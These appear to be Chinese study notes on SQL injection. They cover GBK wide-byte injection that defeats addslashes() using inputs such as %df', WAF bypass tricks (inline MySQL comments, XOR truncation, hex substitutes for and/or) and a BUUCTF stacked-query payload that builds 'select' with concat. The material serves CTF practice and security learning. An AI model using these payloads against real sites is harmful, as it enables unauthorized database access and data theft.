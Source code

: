 **addslashes():**

在指定的预定义字符前添加反斜杠.这些字符是单引号('),("),(\)与null字符

**GBKB编码:**

字符`\`的ascii码为5C,在其低位范围内,就可能被转换为一个服务器数据库不识别的汉字,能和它组合的字符如`%df5c`,`%815c`,`%825C`,`%835C`

mysql在使用GBK编码时,会认为两个字符为一个汉字,所以可以使用一些字符,和经过转义过后多出来的`\`组合成两个字符没变成mysql数据库不识别的汉字字符,**导致对单引号,双引号的转义失败,使其参数闭合**

输入`%df'`,本来会转义单引号为`\'`,但`%df%5c`符合GBK范围,会解析为一个汉字,`\`失去应有的作用

**注意:**只有当sql使用GBK编码时才可以使用宽字节注入



## 安全狗绕过思路

## 常见waf绕过语句

waf绕过常用方法:

### 注释

`/**/`在mysql里是多行注释

`/*!......*/`扩张了注释的功能,加了`!`后,注释里的语句将被实行

`/*!50001*/`表示假如 数据库是5.0001以上版本,该语句才会被执行

### 替换

#### and和or替换

1.&&和||

2.使用异或截断

`?id=1^1^0`      #相当于and 1=2

`?id=1^1^1`      #相当于and 1=1

3.使用负数检测或者16进制

`and -1=-1
and 0x1
and -1>-2`





## buuctf web随便注入笔记

**爆1919810931114514数据表字段（注意数据表为数字的时候需要用反引号括起来）**

select被过滤可以使用`concat`拼接

`-1';use supersqli;set @sql=concat('s','elect flag from 1919810931114514');PREPARE stmt1 FROM @sql;EXECUTE stmt1`
